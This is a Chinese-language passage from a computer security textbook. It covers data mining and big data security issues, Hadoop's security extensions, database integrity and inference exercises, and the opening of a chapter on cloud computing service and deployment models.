数据库是极佳的数据存储库。收集和保存的数据越来越多（部分原因是每兆字节存储成本从几年前的几美元降至如今的几分钱）。网络和互联网允许人们以以前难以想象的方式共享数据库。但在这些浩如烟海的数据堆中寻找信息的针，需要对数据进行智能分析和查询。确实，一个完整的专业领域——称为**数据挖掘**——应运而生。数据挖掘应用程序以很大程度上自动化的方式对数据进行排序和搜索。

数据挖掘利用统计学、机器学习、数学模型、模式识别和其他技术，在大型数据集上发现模式和关系。（例如参见 [SEI06]。）数据挖掘工具使用关联（一个事件常与另一个事件共同出现）、序列（一个事件常导致另一个事件）、分类（事件表现出模式，例如巧合）、聚类（某些项目具有相似特征）和预测（过去事件预示未来事件）。

数据库与数据挖掘应用程序之间的界限正变得模糊；你大概能看出如何在普通数据库查询中实现这些技术。通常，数据库查询是手动的，而数据挖掘更自动化。你可以开发一个数据库查询，看看购买数码相机的人还买了什么其他产品，你可能会注意到结果中 MP3 播放器占主导地位，但你必须自己观察到这种关系。数据挖掘工具会呈现显著的关系，不仅限于相机和 MP3 播放器之间，还包括贝果、机票和跑鞋之间。（同样，我们不知道这种关系是否存在。）人类必须分析这些相关性并确定何者显著。

数据挖掘呈现的是可能的关系，但这些不一定是因果关系。假设你分析数据后发现冰淇淋甜筒的销量与溺水身亡之间存在相关性。你不会得出卖冰淇淋甜筒导致溺水（反之亦然）的结论。这一区别表明为何人类必须参与数据挖掘以解读输出：只有人类能辨别出涉及更多变量（例如季节或甜筒销售地点）。


# 计算机安全从数据挖掘中获益

数据挖掘被广泛用于分析系统数据，例如审计日志，以识别与攻击相关的模式。发现攻击的前兆有助于开发良好的预防工具和技术，而看到与攻击相关的动作有助于精准定位漏洞，以控制可能已发生的任何损害。（该领域早期著作之一由 Lee 和 Stolfo 完成 [LEE98]，且已有专门会议致力于这一重要且日趋成熟的主题。）

> **数据挖掘可支持安全数据的分析。**

然而在本节中，我们想要探讨涉及数据挖掘的安全问题。我们熟悉的保密性、完整性和可用性三要素给出了这些安全问题的线索。保密性顾虑始于隐私，但也包括专有和商业敏感数据以及保护知识产权价值：我们如何控制披露或推导的内容？对于完整性，关键问题是正确性——不正确的数据既无用又可能造成损害，但我们需要研究如何衡量和确保正确性。可用性考量涉及性能和结构两方面：合并原本未设计为组合的数据库，会影响能否及时甚至根本无法获得结果。

## 隐私与敏感性

因为数据挖掘的目标是汇总结果，而非单个数据项，你本不指望会有单个数据项敏感性的问题。不幸的是，事实并非如此。

个人隐私可能遭受我们在数据库中研究的同类推理和聚合问题的影响。由于隐私，特别是保护个人认为属于私人信息的内容，是一个与计算机安全许多领域相关的重要主题，我们将在第 9 章中深入研究。

然而，受影响的不仅是个人隐私：聚合和推理产生的关联也会影响公司、组织和政府。以 Firestone 轮胎和 Ford Explorer 车辆的问题为例。2000 年 5 月，美国国家公路交通安全管理局（NHTSA）发现装配 Firestone 轮胎的 Ford Explorer 发生轮胎故障的比率很高。在特定条件下 Firestone 轮胎胎面分离；在特定条件下 Ford Explorer 翻车，且当胎面分离时，Ford 更容易翻车 [PUB01]。自 1990 年该轮胎和车辆组合上市后不久，消费者就向 Ford 和 Firestone 双方投诉，但问题在 1995 年设计变更后开始上升。两家公司都掌握一些问题证据，但 NHTSA 对合并数据的审查更好地显示了相关性。维护产品质量数据是标准管理实践。但这些数据库中数据的敏感性会阻碍大量共享。即使能找到一个值得信赖的中立方来挖掘数据，所有者也会合理地担心可能揭露的内容。单一产品的大量故障可能显示潜在市场弱点，或一系列少量数据可能向外界透露试销活动。

正如我们在第 9 章所述，关于实体（个人、公司、组织、政府机构）的数据可能不受该实体控制。超市从购物者那里收集产品数据，无论是单次购物，还是更有用地，跨越使用“顾客忠诚卡”客户的所有购买记录。汇总后的数据显示出对制造商、广告代理、健康研究人员、政府食品机构、金融机构、研究人员等有用的营销结果。但这些结果由收集它们的超市掌控，超市现在可以对结果做任何事情，包括将它们出售给制造商的竞争对手。

关于从数据挖掘获得的数据敏感性，鲜有研究和考量。Chris Clifton [CLI03, KAN04] 已对此问题进行调查，并提出了一些方法，这些方法能产生接近但不精确的聚合结果，从而防止敏感信息泄露。

### 数据正确性与完整性

“连点成线” 目前是一个流行语：它指从离散数据位之间的关系中得出结论。但在连点之前，我们需要做两件重要的事：收集和纠正。数据存储和计算机技术使收集比以往更多的“点”成为可能。但如果您的姓名或地址曾在邮寄名单上出现错误，您就会知道并非所有收集到的“点”都是准确的。

#### 纠正数据中的错误

以邮寄名单为例。您在 519 Thames Street 的邻居（住在 510 Thames Street）把一本厨房用品目录送给您，上面写着您的名字但地址是 510 而非 519；显然有人录入您地址时出错了。您联系厨房用品商家，他们乐意更正记录上的地址，因为确保目录送达感兴趣的人符合他们的利益。但他们是连同其他人一起从邮寄名单购买的您的姓名和地址，他们没有动力联系名单所有者更正您的主记录。因此，写着邻居地址的目录继续寄来。您可以预见这会导致什么——错误的地址永远不会消失。

数据挖掘加剧了这一情况。数据库需要唯一键来辅助结构和搜索。但不同数据库可能没有共享键，因此它们将某个数据字段当作键使用。在我们的例子中，这个共享字段可能是地址，于是邻居的地址就与烹饪关联上了（即使邻居需要食谱才能泡茶）。幸运的是，这个例子后果不大。

但考虑恐怖分子的情况。政府情报机构收集可疑活动数据。但可疑人员姓名是外文，用不同字母书写。转换为政府字母时，转换是不规则的：一名特工写 “Doe”，另一名写 “Do”，还有一名写 “Dho”。试图用这些姓名作为公共键充其量只是困难。一种方法是语音匹配。您将发音相似的词聚类。但在这种情况下，您可能会把 “Jo”、“Cho”、“Toe” 和 “Tsiao” 也拉进来，从而在恐怖分子搜索中牵连无辜者。（事实上这已发生：见 Sidebar 7-6。）假设人工分析师能正确区分所有这些并想更正 Doe/Do/Doh 数据库，仍有两个问题。第一，分析师可能无法访问其他机构持有的原始数据库。即使分析师能访问原始库，也大概永远不知道这些原始库还被复制到了哪里。

***

**Sidebar 7-6 近似但不完全匹配**

数据库管理系统擅长查找精确匹配：所有名为 Bfstplk 的人，或年龄在 125 岁以下的所有人。它们查找 “近似” 匹配的能力有限：名字以 *Hgw* 开头的人，或具备五个属性中任意四个的人。DBMS 在查找与 *d’Estaing* 相似的名字，或根据一组症状判断疾病时会遇到困难。DBMS 厂商添加特定领域比较引擎来定义 “接近”，用于发音、拼写、特征或其他模式匹配操作。这些引擎处理不精确性，可能产生一些壮观的失败案例。

美国机场安全数据库频频见诸报端。已故参议员 Edward Kennedy 和前众议员 John Lewis 因姓名疑似与恐怖分子相似，反复被要求接受二级安检，他们的遭遇本令人担忧，但他们在政府中的地位赋予了他们影响力，可推动问题得到解决。许多其他发音相似者则没那么幸运。像 Michelle Green 和 David Nelson 这样名字的人完全不知道为何其姓名会触发更严格审查。

***

***

**数据库和聚合结果没有回溯链接，无法在源头纠正错误。**

***

数据库的一个重要目标是让记录只存在一处，以便一次更正服务于所有用途。而在数据挖掘中，结果是来自多个数据库的聚合。没有自然的方式从结果反向追溯到合并的数据库以查找和纠正错误。

#### 使用可比较的数据

数据语义是在挖掘数据时另一个重要考量。考虑两个包含家庭收入数据的地理数据库。只不过一个以美元为单位，另一个以千欧元为单位。即使字段名相同，直接合并原始数据也会导致统计严重失真。再考虑另一个属性，一个数据库用高/中/低评级，另一个用 1–5 数值刻度。高/中/低应视为 1/3/5 吗？即使分析师采用该转换，混合 3 点和 5 点精度计算也会降低结果质量。又或如何有意义地合并一个有特定属性而另一个没有该属性的数据库？

#### 消除误匹配

如前所述，巧合不等于相关或因果；两件事同时发生不意味着任一导致另一。数据挖掘试图突显数据中不明显的关联，但数据挖掘应用常用模糊逻辑寻找这些关联。这些方法会产生假阳性（误匹配）和漏报（假阴性）。我们需对数据挖掘方法固有的不准确性保持敏感，防止仅因 “计算机这么说” 就过度信任数据挖掘应用的输出。

正确的结果和对结果的正确解读是数据挖掘的主要安全问题。

### 数据可用性

不同数据库间的互操作性是数据挖掘的第三个安全问题。正如所述，数据库必须具有兼容的结构和语义，数据挖掘才可行。缺失或不可比的数据会导致挖掘结果错误，因此或许更好的选择是不产生结果。但无结果不等于无相关性的结果。同单一数据库一样，数据挖掘应用必须处理多重敏感性。试图在具有更敏感值的属性上合并数据库，可能导致无数据从而无匹配。

***

**合并没有天然准确公共字段（键）的数据表会导致许多错误结果。**

***

## 大数据

**大数据** 一词指对海量数据的分析，这些数据常来自不同来源。传统上，杂货店可能猜测一周能卖 100 个生菜；猜少了，一些顾客买不到生菜离开；猜多了，周末可能得降价处理库存以免腐烂。查看长期天气预报，店主可能注意到预测有热浪，便多订生菜，因为炎热天气人们想吃沙拉等清淡食物。或在许多顾客外出度假的时段减少订单。所有这些分析都是临时的，取决于店主的直觉和市场知识。大公司应用类似逻辑决定生产多少汽车或衬衫，或是否投资新厂设备，只不过决策更昂贵，猜错的代价更严重。

杂货商的分析受限于可用的数据。在更注重健康的地区开设第二家分店，可能会让杂货商进更多的生菜、更少的甜甜圈。杂货商可能会假设，驶过商店的特定车型汽车数量与昂贵奶酪的销售量之间存在关系，但统计车辆数量是不可行的。了解报告给当地医生的流感病例数量正在上升，可能会影响进货多少盒纸巾，但杂货商无法获取医生的数据。最糟糕的是，杂货商无法知道顾客在想什么。

如果有人有能力收集、存储和分析数据，顾客数据就随手可得。自计算机问世以来，计算能力（以每秒计算次数衡量）呈指数级增长，而给定金额所能购买的存储量也同样飙升。

从 2000 年代中期开始，公司开始积累和分析新类型的信息。Amazon、GE 和 AT&T 等大公司在深入了解客户方面投入巨资。某个地理区域拥有特别忠诚的运动队粉丝，另一个区域有不成比例的某政党支持者，还有一个区域拥有高可支配收入。Sidebar 7-7 给出了利用大数据预测犯罪的示例。

***

### Sidebar 7-7 Police Use Data Mining to Predict (and Prevent) Crime

北卡罗来纳州夏洛特-梅克伦堡警察局局长 Rodney Monroe 利用技术减少犯罪。他认为测量和分析是更明智警务工作的关键。

2005 年，作为弗吉尼亚州里士满的警察局长，他引入了来自看似无关来源的数据分析，例如天气、交通流量、星期几、发薪日，以及更常规的警务数据，如犯罪报告和紧急响应电话。他发现（不出所料）在居民银行账户较少、因此使用店面兑现支票业务的区域，大型雇主发薪日抢劫案往往会激增。身上带着大量现金走动的人会成为诱人目标。通过分析此类数据并将警务活动针对高潜力情况，里士满警察局在 2005-2006 年犯罪率下降了 21%，在 2006-2007 年又下降了 19%。自搬到夏洛特以来，Monroe 局长实施了类似方法，据 *Computerworld*（2013 年 10 月 24 日）报道，暴力犯罪下降了 20%，财产犯罪减少了 30%。

其他警察部门正在使用诸如 PredPol 之类的工具，该工具由加州大学洛杉矶分校开发。PredPol 基于用于预测地震余震位置的相同算法。该工具为 500 英尺（150 米）的正方形区域生成预测，向警官显示哪些区域面临特定类型犯罪的最高风险；警方随后可将巡逻重点放在最可能的地点。

正如 Jennifer Bachner [BAC13] 指出的那样，预测性警务并非没有问题。过度依赖技术、将警官与社区隔离开来（使警官与程序互动，而不是通过与社区成员交谈来开发线索）、隐私担忧、数据正确性以及数据管理安全性，都是利用分析来建议警方重点关注热点地区的局限性。

警察部门使用的策略和技术与零售商、制造商和其他企业相同。面对有限的资源，警长希望在能发挥最大作用的地方和时间部署警官——预防犯罪，而不是在事后寻找罪犯。从过去的数据中推断模式有助于管理者做出明智的选择。

***

来自不同来源的海量数据的使用通常被称为**大数据**。大数据不同于传统的“小”数据，因为大数据来自公司外部的来源，并非仅由组织自身的内部系统生成。它可以来自传感器和社交媒体，也可以来自视频和音频记录。它可以来自政府数据库、市场分析和客户报告。每一个搜索查询都有助于定义对公司极具价值的趋势。社交媒体让公司洞察人们与朋友分享的产品、服务和偏好。

***

**活动或行为数据无处不在。它们准确吗？**

***

所有这些利用数据预测行为的用例，在公司决定如何分配资源时都很有价值。因此，现在杂货商不只是看十天天气预报，而是使用更多数据，以更高的准确度预测能卖出多少颗生菜。

大数据正成为一件大事。与许多备受追捧的技术一样，功能性超越了安全性。在下一节中，我们将简要描述大数据方法，指出其某些安全局限性，并提出潜在的对策。

### A Big Data Application Framework: Apache Hadoop

如 Figure 7-5 所示，传统计算模型让用户与可访问存储的处理器交互。如 Figure 7-6 所示，要扩展此类系统，可以通过向磁盘阵列添加更多磁盘来增加存储。然而，存储增长存在隐性限制，超过后会遭受严重的性能延迟：市场上最大的设备总会填满，届时需要不同的架构。新处理器能提供更高速度，但现有技术也有极限，且更高性能往往成本高得不成比例。此外，单一处理器和单一存储阵列会成为潜在的灾难性故障点。大数据需要一种能轻松扩展至几乎无限容量的架构。


**FIGURE 7-5** Conventional Computing Architecture


**FIGURE 7-6** Conventional Architecture Scales by Adding More, Bigger, or Faster Components

Apache Hadoop 框架^(1)（参见 [`hadoop.apache.org`](http://hadoop.apache.org)）是运行大数据项目的软件环境。Yahoo!、LinkedIn 和 Twitter 等用户使用 Hadoop 集群来管理收集的数据。（为了让你了解某些大数据应用的规模，据 *InformationWeek* 2012 年 6 月 15 日报道，Yahoo! 拥有 42,000 台 Hadoop 服务器，据 *Bloomberg BusinessWeek* 2012 年 8 月 23 日报道，Facebook 的集群可处理 100 PB（= 100,000,000 GB）。）虽然 Hadoop 不是实现大数据项目的唯一方式，但它或许是最常见的一种，且与其替代方案类似——Google 在内部使用类似框架来组织网页链接以支持其搜索功能。我们简要介绍 Hadoop，作为探索大数据环境安全性的一种方式。简单来说，Hadoop 不使用最大或最快的处理或存储（用当前技术总会有上限），而是使用由较小（且通常更便宜）组件组成的无界数组，将它们组成网络。

1. 以一位创始人儿子的玩具命名。

#### Hadoop 架构与大数据安全挑战

Hadoop 支持分布式数据存储和处理、多种类型的计算平台、冗余以及并发访问。它最初是为一个涉及网络爬虫的项目而构建的，网络爬虫是遍历互联网并为网络搜索引擎建立索引的自主代理。正如你所想象的，网页数量及其内容描述符是巨大的。与高度结构化的关系型数据库相反，网络内容数据往往只有很少的互连和简单的结构，有些人称之为扁平结构。在这种情况下，快速提供某些结果比缓慢提供最全面的答案更重要。

Hadoop 架构的图形模型如图 7-7 所示。在该图中，数据块（标记为 b1、b2 等）位于连接到 `DataNode` 的存储设备上，这些设备可以位于任何地方——同一机器集群上、不同的阵列中，甚至在地球另一端。`NameNode` 负责复制数据并跟踪数据项的存储位置。数据复制支持容错性和完整性。

```

```

**图 7-7** Hadoop 架构

Hadoop 涉及一个称为 Map-Reduce 的阶段，在该阶段中，数据首先被映射以查找公共数据，然后根据公共部分进行归约。Hadoop 随后支持对该归约数据的分布式使用。当机器空闲时，计算不产生成本；也就是说，一台使用率为 85% 的机器有 15% 的闲置时间可免费使用。Hadoop 方法在分布式环境中移动计算，以利用未充分利用的计算资源。

Hadoop 模型是为一个所有用户共享开放数据的环境而开发的。因此，它没有访问控制、正确性检查、隐私保护、用户标识或认证、操作日志记录或有限特权的机制——这些都是你在任何安全环境中都可能期望的基本要素。早期的安全模型是完全隔离：大数据在隔离的、受信的环境中由受信用户在专用机器上处理。这种使用模型类似于最早期（1940 年代-50 年代）的大型机计算装置，以及 Unix 操作系统最初（1960 年代-70 年代）的设计意图：一个封闭的环境，所有用户相互知晓并信任，无需将某些用户从某些数据中排除。随着时间的推移，设计者为大型机和 Unix 都实现了安全功能，尽管事后添加安全性具有挑战性。

大数据因涉及的数据量而引发安全问题：保护数十或数百个数据项通常比保护数十亿或数万亿个数据项涉及的风险和难度要小。然而，许多保护问题与其他领域相同：保护数据安全、保护隐私和确保完整性是单用户计算机、多用户计算系统、网络、云提供商、分布式应用以及大数据处理器共同关注的问题。

在本节中，我们列出了大数据中的安全问题，很多时候只是指出该问题本书其他地方出现的更普遍安全问题的一个实例。并且因为大数据是一个新兴领域，我们列出的是问题而非解决方案。从本书其他地方展示的授权、访问控制等示例中，你可以提出适用于这些问题的工具和技术。

### 隐私

有人可能会争辩说大数据与隐私无关：数据处理者不收集数据，只是筛选现有数据。因此，例如，大数据用户不对商店通过客户忠诚卡追踪客户购买行为，或商店随后将追踪数据出售给对趋势感兴趣的人负责。另一方面，大数据的收集和关联能力使这种用途成为可能且利润丰厚。无论如何，隐私问题都会出现。我们在第 9 章中概括地研究隐私。

#### 隐私保护分析

正如我们在第 9 章中解释的，匿名化是平衡隐私顾虑与功能目标的重要方法。例如，研究人员想知道吸烟是否与肺癌相关。为了了解这一点，研究人员需要一个包含吸烟者和非吸烟者及其肺癌状况的人群。受试者是谁并不重要。理论上，大量病例史使得将受试者与实际身份联系起来变得不可行。从这个意义上说，大数据应通过极大地增加受试者池，从而增加受试者和身份的数量来改善隐私。

然而，大数据也加剧了这个问题，因为它提供了更多可能识别特定个体的数据：更多的数据项减少了匹配所有属性的人数。谁是住在 Maple Street、55 岁、家里养两条狗、订阅《Bicycling》杂志、经常给里约热内卢打电话的癌症患者？

***

**推理在大数据上的作用正如在数据库中一样。**

***


正如本章前面所述，添加噪声和移除识别数据有助于保护隐私。噪声可能包括虚假数据：例如一只猫没有狗；移除年龄也可能使从数据中推断个人身份变得更难。尽管如此，正如我们在第 9 章所示，限制数据的方法是不完整的解决方案。

## 细粒度访问控制

大数据通常使用非结构化数据集、扁平的二维表。访问控制（如果有）是在文件级别实施的：整个文件对用户要么可访问，要么不可访问。这种方法非常适合 Hadoop 等大数据架构，在该架构中，整个文件被复制并由一组并行工作的 `DataNode` 进行分析。

正如在第 2 章首次提出并在本书其余部分反复强调的，细粒度访问控制通过允许最小权限来促进安全（和隐私）：进程只能访问那些与安全策略一致且手头任务所需的特定对象或数据。

### 安全性

数据安全是大数据架构的第二大挑战。重新考虑第 1 章中的 CIA 三要素。机密性与隐私密切相关，但还有其他机密性顾虑。大数据通常涉及大量资金：数据收集者付费采集数据，然后出售。数据采集者通过一次采集、多次向不同买家出售来获得持续利润。Google 等搜索公司收集用户的搜索词（如“San Francisco hotel”），然后可能将其出售给 Hilton、Marriott 和 Sheraton，以及航空公司、餐厅、旅游公司等。如果 Google 将数据卖给 Hilton，而 Hilton 再转卖给 Marriott 和其他公司，Google 就会损失后续的收入流。因此，Google 想要控制其专有数据的机密性。数据完整性——即数据正确且完整——很重要，确保数据可用性也很重要。因此，三要素中的所有元素对大数据都很重要。

这里我们列出一些大数据的安全问题。

#### 安全数据存储

在 Hadoop 模型中，数据项被复制并存储在任何方便的位置。如果一个数据存储变得太满以至于性能受损，控制器会自动分割数据并将部分数据移至别处。应用程序开发人员通常不知道，更不关心数据物理存储在哪里。

数据存储提供商寻求最低成本，在纽约、伦敦或东京市中心托管数据的成本可能远高于田纳西州 Alcoa 或英格兰 Pateley Bridge。只要有足够的电力和网络基础设施，任何地方都一样好。

差不多了。假设数据存储在一个政治敏感地区，甚至是一个战区：迫击炮袭击或导弹袭击的余波是无人愿意见到的。或者假设数据存放在一个其统治者决定将所有外资资产国有化的国家。又或者考虑这样一个场景：饥饿的市民冲击设施，偷走任何日后能作为废金属转卖换粮的东西。在其他章节中，我们曾用磁卡和指纹识别器来描述针对守法人士的访问控制，但全球范围内的访问控制必须同时应对物理和政治层面的问题。

#### 事务日志与审计

活动日志对于监控“谁做了什么”至关重要。审查审计日志有助于管理员调节访问权限，日志还有助于在错误或安全漏洞发生时确定损害范围。然而，确定要跟踪什么内容颇具挑战性：跟踪过少会限制访问日志的实用性，但数据过多会淹没人工与技术手段，使得在海量访问记录中寻找关键线索变得困难。数据粒度影响跟踪数据的体量。仅知道用户 A 在周一访问了数据库 D 可能毫无用处，真正有帮助的是知道 A 修改了记录 2 和 17，甚至知道 A 修改了记录 2 中的地址字段和记录 17 中的薪资字段。可用的跟踪数据取决于为数据记录的访问粒度。

> **跟踪访问成本高昂，尤其是在访问量巨大时；详细的访问审计在大数据场景中并不常见。**

在大数据应用中，访问单位通常是文件，因此日志只会记录某应用访问了文件 F，而不会记录 F 中的具体数据。

#### 实时安全监控

正如第 6 章所述，入侵检测和防护系统允许管理员监控活动，或可检测异常行为或攻击，并在事件进行时采取应对措施。大数据架构涉及数据和计算的敏捷移动，但连接网络可能是一个大型共享网络，通常是互联网。实时安全监控并非为复杂、共享、流动的网络架构设计。

### 完整性

最后，完整性值得独立考量，区别于机密性和可用性，因为正确性、准确性和可靠性对数据用户至关重要。在本节中，我们将指出一些与大数据相关的完整性问题。

#### 数据准确性

您可能经历过某项个人数据被错误录入数据库的情况。我们在本章前面举过一个例子：将 519 Thames Street 录成了 510。令人沮丧的是，无论您如何努力，往往永远无法追溯到数字出错的最终源头。于是 510 这种错误数据年复一年地反复出现。我们之前用该例子作为元素完整性的一个侧面。

正如我们刚才所述，大数据集存在完整性问题。然而，大数据使用的另一个特性使情况更加复杂。大数据通常使用从许多来源收集的众多数据流，例如：车牌照片识别、书面公共记录的人工转录、录音的语音识别、手写表单的录入，所有这些都容易出错。

丰富的结构化数据库通常有一个或多个标识键，如电话号码、国家保险号、账号、出生日期或其他可用于关联两个数据集的可靠数据项。大数据集合往往缺乏这种强键，因此只能基于较弱的属性进行关联，例如姓名（姓名可呈现多种形式，拼写错误的方式更是多不胜数）。此类关联产生的结果准确性较低。

> **对数据准确性的需求取决于预期用途；用户在基于大数据操作结果采取行动时，需考虑其准确性要求。**

对于许多用途，大数据的高准确性并不重要：在一个 500 人的社区中，养宠物的人是 90、100 还是 110 人，不如“宠物拥有率在 15% 到 25% 之间”这一结论重要。然而，用户需要认识到这种准确性的局限性。

##### 来源溯源

大数据通常涉及从多个来源收集和分析数据。正如我们刚才指出的，数据集的质量程度各异，部分取决于数据的来源。大数据应用必须控制这种变异性，尽管大数据模型并不总能让应用得知数据的确切来源，甚至无法知晓来源的性质。因此，应用编写者难以在生成的结果中轻易考量数据溯源。

##### 端点过滤与验证

最后，应用处理完大数据集合中的数据后，可能想要对结果进行过滤和验证。当前的大数据框架不支持这种数据修订和操作。

#### 大数据应用的安全增强

正如其他章节所述，向现有产品或系统添加安全性很少是成功的策略。尽管如此，有时这是唯一可行的方法；不仅规格和设计已完成，而且产品的一个或多个版本已在使用中。`Hadoop` 和其他专有大数据应用框架即属此类：产品设计和实现在安全性被认真考虑之前就已完成。安全工程师现已推荐对 `Hadoop` 进行更改和增强，以支持知名的安全工具和技术。

`Hadoop` 安全模式在 `Hadoop` 网站 [`hadoop.apache.org/docs/current/hadoop-project-dist/hadoop-common/SecureMode.html`](https://hadoop.apache.org/docs/current/hadoop-project-dist/hadoop-common/SecureMode.html) 和一份白皮书 [OMA09] 中有所描述，该白皮书由 Owen O’Malley 领衔的 Yahoo! 团队发布。这些关于安全功能的提议建议在 `Hadoop` 框架中包含安全特性。白皮书指出了两个待解决的安全漏洞：缺乏用户认证（和识别）以及缺乏对数据块的访问控制。为解决这些问题，该团队提出了一种涉及以下 `Hadoop` 扩展的安全模式：

*   面向最终用户 Web 设备的认证
*   采用 `Kerberos` 进行相互（用户–进程–Hadoop 服务）认证
*   `Hadoop` 文件系统中文件的访问控制
*   用于内部客户端与服务间持续认证的委派令牌
*   用于在多个分布式平台间分发访问授权的作业令牌，这些平台协同实现跨异构数据存储的数据搜索
*   网络流量的 `SSL` 加密

该设计的驱动力是性能：开发人员决定安全功能不得使性能下降超过 3%。2008 年，Yahoo! 开发人员网络报告称，一个 `Hadoop` 集群在 209 秒内成功排序了 1 TB 数据。请注意，为了保护数据，O’Malley 团队不愿让该结果减慢哪怕比您读完这句话所需时间还短的时长。（209 秒打破了之前 297 秒的纪录，缩短了 26% 以上。）

> **对于数据挖掘应用，性能往往胜过准确性或安全性。**

Andrew Becherer 在 2010 年 BlackHat 大会上发表了一篇论文 [BEC10]，指出了 2009 年 Hadoop 安全扩展的一些缺陷。他批评了默认保护级别，该级别通过默认加密强度来衡量，适用于那些选择使用安全增强功能的用户。此外，他指出该设计涉及将相同的密钥分发给分布在不同位置的潜在数百或数千台服务器。同一密钥的大量副本增加了其中一份副本落入攻击者手中的风险。该安全模型还根据进程所在的（或似乎所在的）IP 地址对某些进程进行身份验证。正如 第 6 章 所述，IP 地址可以被欺骗，当 Hadoop 系统托管在互联网上时，该漏洞不容忽视。

Hadoop 的安全增强无疑是一个受欢迎的进步，但正如本书所述的许多安全问题一样，如果安全性是在事后添加的，为了性能而牺牲安全性，且在安全方法成文之前缺乏广泛的设计和分析，那么解决方案将是有限的。

## 7.6 结论

在本章中，我们探讨了数据保护。我们的兴趣涉及隐私问题，我们将在 第 9 章 中更深入地探讨。此外，我们还预览了云计算的一些安全问题，云计算是广泛分布式数据存储和处理的新名称。我们将在 第 8 章 中讨论云安全。

保护数据尤其棘手，因为用户可以在计算系统之外收集和汇总数据。因此，尽管我们可能建立了可靠的访问控制方法，并完整跟踪了每个个体访问了什么数据，但系统外部的行为完全超出了我们的控制。

## 练习

**1.** (a) 在多个用户共享访问单个数据库的环境中，一个用户是否可能无限期地阻塞另一个用户的访问？（这种情况称为无限期推迟。）(b) 描述一个场景，其中两个用户可能导致彼此无限期推迟。(c) 描述一个场景，其中单个用户可能导致所有用户无限期推迟。

**2.** 使用本章开头介绍的两步提交，描述如何避免将一个座位分配给两个人（如航空公司示例）。即，准确列出数据库管理器在为乘客分配座位时应遵循的步骤。

**3.** 假设数据库管理器允许将一个事务嵌套在另一个事务内部。也就是说，在更新了一条记录的一部分后，DBMS 允许你选择另一条记录，更新它，然后对第一条记录执行进一步的更新。嵌套会对数据库的完整性产生什么影响？建议一种允许嵌套的机制。

**4.** 数据库能否包含两条完全相同的记录，而不会对数据库的完整性产生负面影响？为什么？

**5.** 某些操作系统执行缓冲 I/O。在此方案中，系统接受用户的输出请求，并通知用户 I/O 正常完成。然而，实际的物理写入操作稍后在操作系统方便的时间执行。讨论缓冲 I/O 对 DBMS 完整性的影响。

**6.** 一个数据库事务实现以下命令：“在所有 BALANCE-OWED = 0 的记录中将 STATUS 设为 ‘CURRENT’ 。”(a) 描述该事务如何使用本章所述的两步提交来执行。(b) 假设构成该命令的关系为 (CUSTOMER-ID, STATUS) 和 (CUSTOMER-ID, BALANCE-OWED)。该事务将如何执行？(c) 假设构成该命令的关系为 (CUSTOMER-ID, STATUS)、(CREDIT-ID, CUSTOMER-ID)、(CREDIT-ID, BALANCE-OWED)。该事务将如何执行？

**7.** 证明如果使用纵向奇偶校验作为错误检测码，数据库中的值仍可能在未被检测到的情况下被修改。（纵向奇偶校验是针对每个字节的第 `n` 位计算的；即，为所有第 0 位计算并保留一个奇偶校验位，为所有第 1 位计算另一个奇偶校验位，以此类推。）

**8.** 假设查询 `Q[1]` 获得值集合 `S[1]` 的中位数 `m[1]`，查询 `Q[2]` 获得 `S[1]` 的子集 `S[2]` 的中位数 `m[2]`。如果 `m[1] < m[2]`，可以推断出关于 `S[1]`、`S[2]` 以及 `S[1]` 中不在 `S[2]` 中的元素的什么信息？

**9.** 公布 Smith 宿舍学生所有经济援助的总额并不敏感，因为没有将个别学生与具体金额关联。同样，领取经济援助的学生名单也不敏感，因为未指定金额。然而，如果 Smith 宿舍只有一名学生获得援助，这两个名单的结合就会泄露该个别学生的金额。数据库管理系统必须执行何种计算，才能确定姓名名单可能泄露敏感数据？数据库管理系统必须维护哪些关于不同用户已知信息的记录，才能确定姓名名单可能泄露敏感数据？

**10.** 为确保隐私提出的一种方法是小结果拒绝，即系统拒绝（不返回结果）任何从少量记录（例如五条）派生结果的查询。展示如何仅使用从六条记录派生的查询来获取敏感数据。

**11.** “敏感值；响应被抑制”这一响应本身就是一种泄露。建议一种数据库管理系统抑制泄露敏感信息的响应的方式，而不泄露对某些查询的响应是敏感的这一事实。

**12.** 举出一个聚合敏感度大于其组成值敏感度的情况。举出一个聚合敏感度小于其组成值敏感度的情况。

# 8. 云计算

---

本章内容：

*   什么是云服务？
*   选择云服务时需考虑的风险
*   云环境的安全工具

---

云计算不是一项新技术。相反，它是利用技术提供服务的一种新方式。美国国家标准与技术研究院 (NIST) 提出将云计算定义为一种模型，“用于实现便捷的、按需的网络访问，以进入可配置的共享计算资源池。” [MEL11] 因此，云由网络、服务器、存储、应用程序和服务组成，它们以松散且易于重新配置的方式连接。如果你想使用云，你与云服务提供商签约，指定所需的配置，瞧！只需动动脑筋，服务即可提供给你！

## 8.1 云计算概念

云具有五个定义特征：

*   **按需自助服务**。如果你是云客户，你可以根据需要自动请求计算资源（如服务器时间和网络存储）。
*   **广泛的网络访问**。你可以通过各种技术访问这些服务，如手机、笔记本电脑、台式机和大型机。
*   **资源池化**。云提供商可以汇集大量多样化的资源来提供你请求的服务。这种“多租户模型”允许单个资源（或资源集合）被多个客户访问，特定资源（如存储、处理或内存）可根据客户需求动态分配和重新分配。这种重新配置和重新分配对单个客户不可见；从客户的角度来看，服务的提供无需了解底层位置。
*   **快速弹性**。服务可快速且自动地扩展或缩减，以满足客户的需求。对客户而言，系统的能力似乎是无限的。
*   **可度量服务**。就像水、煤气或电话服务一样，云服务和资源的使用情况可被监控、控制和报告，提供方和客户均可知晓。

### 服务模型

云可通过多种方式进行配置，但云提供服务有三种基本模型（图 8-1）。第一种称为**软件即服务**（SaaS），云提供方让客户访问在云中运行的应用程序。在此模型下，客户无法控制基础设施，甚至无法控制大多数应用程序功能；这就像租用并驾驶一辆汽车，客户访问并使用该应用程序。


**图 8-1** 云服务模型

> **软件即服务：云中的应用程序**

在第二种服务模型中，称为**平台即服务**（PaaS），客户拥有自己的应用程序，但云提供了创建它们所需的语言和工具。同样，客户无法控制工具底层的基础设施，但可能在基础设施配置上有一定发言权。

> **平台即服务：支持云中应用程序开发的语言和工具**

在第三种服务模型中，称为**基础设施即服务**（IaaS），云提供处理、存储、网络和其他计算资源，使客户能够运行任意类型的软件。在此模型下，客户可以请求操作系统、存储、某些应用程序和某些网络组件。

> **基础设施即服务：云中的处理、存储、网络组件**

### 部署模型

云有许多不同的定义，也有许多描述云部署方式的方法。云提供方通常会描述四种基本产品：私有云、社区云、公有云和混合云。

> **云计算意味着处理器、存储、应用程序或其他资源的导出。共享资源会增加安全风险。**

